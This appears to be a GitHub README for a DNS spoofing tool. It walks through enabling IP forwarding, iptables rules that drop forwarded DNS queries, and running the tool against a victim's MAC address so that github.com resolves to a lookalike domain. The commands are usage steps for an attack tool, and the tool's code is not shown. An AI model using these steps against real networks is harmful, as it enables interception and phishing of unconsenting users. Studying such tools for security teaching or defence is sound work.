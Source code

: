# DNS Spoofer

## How to run

### 1. Enable ip forwarding

```sh
echo "1" > /proc/sys/net/ipv4/ip_forward
```

### 2. Add routing via iptables

These commands will make that all packets are passed to the router except for DNS requests.

```sh
sudo iptables -t filter -A FORWARD -p udp --dport 53 -j DROP
sudo iptables -t nat -A POSTROUTING -o wlo1 -p udp --sport 53 -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o wlo1 -j MASQUERADE
```

### 3. Compile

```sh
make
```

### 4. Run

```sh
sudo ./dns_spoofer INTERFACE_NAME GATEWAY_IP_ADDR WEBSITE_ADDR REDIRECT_IP_ADDR VICTIMS_MAC
```

If you are not sure which interface to use, run "ip a" and look for the one that has "state UP".

To get victim's mac address, run "arp-scan --localnet".

#### Example:

If your interface is wlo1, your gateway is 192.168.0.1 and victim's MAC is a8:44:12:13:g2:1b then you can run the following command:

```sh
sudo ./dns_spoofer wlo1 192.168.0.1 github.com guthib.com a8:44:12:13:g2:1b
```

This will make it so that when victim asks for ip address of github.com instead they will get ip address of guthib.com.
